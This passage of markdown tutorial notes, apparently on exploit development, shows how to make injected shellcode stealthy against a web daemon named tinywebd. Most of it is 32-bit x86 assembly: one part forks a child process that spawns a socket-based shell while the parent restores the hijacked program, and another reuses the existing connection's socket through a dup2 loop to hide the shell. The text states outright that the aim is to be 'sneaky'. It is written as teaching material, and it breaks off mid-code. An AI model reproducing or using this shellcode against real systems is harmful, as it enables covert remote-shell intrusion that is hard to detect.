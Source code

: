       push 0xdeadbeef        ; 0xdeadbeef is the address of the next call after the function
      ret                    ; Tells the program to return to the address off the stack. 
      ```
### Using a child process
Because you want to be sneaky and ensure that the program you hacked doesnt break, you want to move your shellcode into a new process, this is done simply with the concept of forking.
<details><summary>fork(2) man page</summary></details>

It is important to remember that the fork process returns 0 for the child process and the new PID to the parent process. So we need to send the execution of out shellcode into the new process and use the concept above to send the parent back to normal. The code will look something like. 
```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return

child_process:
; s = socket(2, 1, 0)
  push BYTE 0x66    ; Socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.
```
*Note: Since fork returns a 0 in eax, upon success you can use the ```jz``` instruction to jump the new code into a child process*

### Socket Reuse
In the event you want to be even more sneaky and ride your "legitimate" connection for your resulting shellcode to do so, you simply grab the connection's file descriptor for your shell code and plug it into your ```dup2``` call. Because memory is dynamic it would be better to use a relative address for the file descriptor such as its relation to the stack. After sucess, your shellcode should look like this. 
```
child_process:
      ; Re-use existing socket.
   lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
   mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
   push BYTE 0x02
   pop ecx          ; ecx starts at 2.
   xor eax, eax
   xor edx, edx
dup_loop:
   mov BYTE al, 0x3F ; dup2  syscall #63
   int 0x80          ; dup2(c, 0)
   dec ecx           ; Count down to 0.
   jns dup_loop      ; If the sign flag is not set, ecx is not negative.
```